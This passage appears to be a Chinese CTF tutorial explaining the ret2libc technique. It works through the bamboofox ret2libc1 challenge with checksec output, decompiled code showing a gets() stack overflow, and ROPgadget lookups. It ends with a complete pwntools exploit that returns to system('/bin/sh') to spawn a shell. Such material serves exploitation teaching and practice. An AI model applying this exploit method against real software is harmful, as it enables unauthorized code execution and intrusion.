 ## 原理

ret2libc即控制函数的执行 libc中的函数，通常是返回至某个函数的plt处或者函数的具体位置(即函数对应的got表项的内容)。一般情况下，我们会选择执行system("/bin/sh")，故而此时我们需要知道system函数的地址。

## 例子

我们由简单到难分别给出三个例子。

### 例1

这里我们以bamboofox中ret2libc1为例。首先，我们可以检查一下程序的安全保护

```shell
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为32位，开启了NX保护。下面来看一下程序源代码，确定漏洞位置

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行gets函数的时候出现了栈溢出。此外，利用ropgadget，我们可以查看是否有/bin/sh存在

```shell
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有system函数存在。经在ida中查找，确实也存在。

```asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那么，我们直接返回该处，即执行system函数。相应的payload如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
